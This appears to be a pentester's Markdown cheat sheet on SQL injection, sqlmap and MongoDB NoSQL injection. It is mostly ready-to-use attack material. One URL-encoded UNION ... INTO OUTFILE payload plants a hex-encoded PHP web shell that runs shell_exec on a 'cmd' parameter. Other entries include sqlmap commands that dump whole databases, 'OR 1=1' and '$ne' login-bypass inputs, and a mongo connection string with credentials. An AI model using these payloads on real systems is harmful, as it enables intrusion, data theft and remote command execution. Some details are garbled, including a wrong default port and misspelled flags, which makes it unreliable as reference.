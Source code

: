 ```bash
GO
```
- example  `index.php?id=7%20UNION%20SELECT%20*%20from%20flags%20INTO%20OUTFILE%20%27/var/www/html/shell.php%27%20LINES%20TERMINATED%20BY%200x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E;--%20-`

### SQLMap

[cheatsheet](https://www.comparitech.com/net-admin/sqlmap-cheat-sheet/)

- `sqlmap -u <URL> -p <injection parameter> [options]`

- `sqlmap -u "http://test.site/view.php?id=1" -p id --technique=U` **_technique used is Union_**

- `sqlmap -u "http://test.site/view.php?id=1" --tables`

- `sqlmap -u "http://test.site/view.php?id=1" --current-db <dbname> -columns`

- `sqlmap -u "http://test.site/view.php?id=1" --current-db <dbname> --dump`

- `sqlmap -u "http://test.site/view.php?id=1" -D <dbname> -T <tablename> -C <Column> --dump1`

- `sqlmap -u http://target/whatever --method POST --data "db=mysql&name=asd&sort=id&order=asc" -p "name,sort,order"`
    - `-p` parameters to test with from `--data`
    - `--data` post body
- `sqlmap -u http://attack/whatever --method POST --data "db=mysql&name=asd&sort=id&order=asc" -p "name,sort,order" --dbms=mysql --dump`
    - `--dbms` specify what dbms in use
    - `--dump` dump all contents of all tables in the db


For Post Params/data

`sqlmap -u <URL> --data=<POST STRING> -p <PARAMETER> [options]`

Sometimes you don't need the **'**

`id=1 OR 1=1`

## NoSQLi

### MongoDB

[PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- default port is 2701
- mongo to start - show databases, use whatever
- `db.createCollection("users")` , `db.users.insert({id:"1", username: "admin", email: "admin@test.test", password: "password"})` , `db.users.find()` , `db.users.update({id:"2"}, {$set: {username: "test"}});`
- `.bson` supports json
- `username[$eq]=admin&password[$ne]=asd`
- collections = tables, documents = rows, fields = columns
- $and = AND, $or = OR
   - $eq = matches records that equal to a certain value
   - $ne = matches records that are not equal to a certain value
   - $gt = matches records that are greater than a certain value.
   - $where = matches records based on Javascript condition
   - $exists = matches records that have a certain field
   - $regex = matches records that satisfy certain regular expressions.
  - `mongo mongodb://admin:pass@192.168.120.186:27017/`
